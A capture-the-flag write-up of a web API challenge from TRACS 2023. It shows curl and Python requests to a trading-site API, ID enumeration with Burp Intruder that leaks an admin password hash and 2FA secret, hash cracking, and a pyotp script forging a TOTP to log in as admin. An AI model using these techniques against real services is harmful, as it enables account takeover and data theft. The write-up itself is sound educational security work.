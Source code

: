 ```yaml
---
layout: writeup
category: TRACS2023
chall_description: 
points: 150
solves: 16
tags: Web API
date: 2023-12-13
comments: false
---
```


## ## Challenge Description

This is a Web API Challenge from the event TRACS 2023 (Tournoi de Renseignement et d'Analyse de CentraleSupélec). It was such a great experience and I have learnt a lot from it, so here is a solution for a challenge. However we are not allowed to take photos during the event and I also forgot to snip the screen, so I dont have many photos to show, but the files I acquired during the challenge.

To begin with, we have a cryptocurrency trading website with API, and we have to investigate a suspect of EvilCorp who is believed to be active on this site. 

## ## Solution

1. #### Flag 1: Account balance

   The first flag is quite simple: we have to login with given credentials: `demo@trade.local:demo` at the endpoint /api/login and get the account balance.

   After sending login request:

   ```bash
   $ curl -X POST http://nexicoins.tracs.viarezo.fr/api/login -H 'Content-Type: application/json' -d '{"email":"demo@trade.local", "password": "demo"} '
   {"access_token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTcwMTUyMTIwNCwianRpIjoiM2I0MWY0ZWYtMGZjZS00NWQ5LTg2YTMtMTNiNjFjMjQ0ZGUzIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6MSwibmJmIjoxNzAxNTIxMjA0LCJleHAiOjE3MDE1MjIxMDR9.M6Yv8y2wHRGpHt82Kw66Qt51xyY7scrw7blClXBIIic"}
   ```

   We got a access_token, which is a JWT. To get the balance I use this code (It's my teammate [Kaiba404](congkhainguyen.github.io)):

   ```python
   import requests
   
   url = "http://nexicoins.tracs.viarezo.fr/api/account/balance"
   access_token = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTcwMTUyMTIwNCwianRpIjoiM2I0MWY0ZWYtMGZjZS00NWQ5LTg2YTMtMTNiNjFjMjQ0ZGUzIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6MSwibmJmIjoxNzAxNTIxMjA0LCJleHAiOjE3MDE1MjIxMDR9.M6Yv8y2wHRGpHt82Kw66Qt51xyY7scrw7blClXBIIic"
   
   headers = {
       "Authorization": f"Bearer {access_token}"
   }
   
   response = requests.get(url, headers=headers)
   
   if response.status_code == 200:
       # Request was successful
       print("Response:", response.json())
   else:
       # Request failed
       print(f"Error: {response.status_code}, {response.text}")
   ```

   And we got the first flag, which is the balance of the account demo 2.47$

2. #### Flag 2: Password hash of user admin

   While playing around with the endpoint /api/account/infos, I realized that this will return all infomation of our current account (id, email, hash, 2FA activated or not, balance, what type of coin and quantities). However, with Burp Suite, I can see a Header in the reponse packet `Location: /api/account/infos?id=1 `, and the id of user `demo` is 1.  I tried with id 0 but it doesnt exist, so after some tries, I know there are 1035 users in the database.

   So we can fuzz the endpoint with numbers and I guess the dev hid the admin among the normal one. To do this I used Burp Suite Intruder, with a wordlist 1-1035 and filter the result with `admin`. And this worked! At id 852 we have admin@trace.local and its hash:

   ```
   #PASSWORD admin: id 852 admin@trade.local : 2dab208fb73fb1e9444dfb9981ae7c71f0c54fdd746292db55b93cf880d6facf  
   #2FA: KFGWCURIIJDT6627K5CHAQ3VJ56UU332PNJHE2JXKFMDG4LBJVRQU
   ```

   so the flag is the hash we found.

   A bit curious, I tried to crack the hash and found the actual password of `admin:5874bon1440rev21`:

   ![image-20231215142147429](../../../\assets\CTFs\TRACS2023\hash_admin)

   We also have a page for /api/admin, however it was locked by a http authentication (.htpasswd), but now we can access to it due to reusing credentials and find out there exist 2 endpoint for `admin` and `admin` only: /api/admin/transactions and /api/admin/users

3. #### Flag 3: Marie Honnette Last IP address

   The suspect we need to investigate named Marie Honnette, and we can find her information the same way we did with admin:

   ```json
   {
   	"role": "user", 
   	"email": "marie.honnette@evilottery.ev", 
      "password": "4c504c9d0dce1700ae57a16147074820c0745b005bddcfb4a876a54c38389046",
     	"2FA": "None", 
    	"balance": "307.28", 
   	 "stocks": [{"code": "HWN", "qty": 13.540588842504697}, {"code": "CYI", "qty": 3.444808330834581}, {"code": "TQK", "qty": 6.046132874644536}, {"code": "OUT", "qty": 16.35328518715449}, {"code": "THD", "qty": 9.108755215289444}, {"code": "OQN", "qty": 10.812927301654812}, {"code": "RLI", "qty": 18.653448986299026}, {"code": "JGD", "qty": 12.589059350125865}, {"code": "EYB", "qty": 5.932961914189468}]
   }
   ```

   Since we have the credential of admin, I know we have to take advantage of that, so I tried to login as admin, however this account's NFA was activated, and my attempt was failed because I had no TOPT.

   I had no idea how does it work to be honest, so I did some research about it: 

   > TOTP(Time-based One-Time Password ) is a type of password that are generated based on the time and a secret. It is the same way we received the OTP when we try to login into our Google account (or other services with 2FA) with a 6-digit code to verify ourselves. TOTP will expire after a moment

   And we've already had the 2FA secret of the user admin! So all we have to do is forging a TOTP, with the current time, and use it to login as admin. So I write the code bellow:

   ```python
   import pyotp
   import time
   from datetime import datetime
   
   def generate_totp_code(secret, time):
       totp = pyotp.TOTP(secret)
       time = int(time.timestamp())
       return totp.at(time)
   
   secret = "KFGWCURIIJDT6627K5CHAQ3VJ56UU332PNJHE2JXKFMDG4LBJVRQU"
   time = datetime(2023, 12, 2, 20, 15, 0)  
   totp = generate_totp_code(secret,time)
   
   print(totp)
   ```

   

And we got the access_token of the `admin`! Great!

So now we can access to /api/admin/users to collect information of all users of the system, and look up for Marie Honnette and voilà:

![image-20231215142147429](../../../\assets\CTFs\TRACS2023\tracs_marie_ip.png)

Here is the flag last_connection_ip : `10.30.95.127`



And that's all for this challenge. Quite interesting and I have learnt more about 2FA. Thank you for reading and see you around!

Happy Hacking!
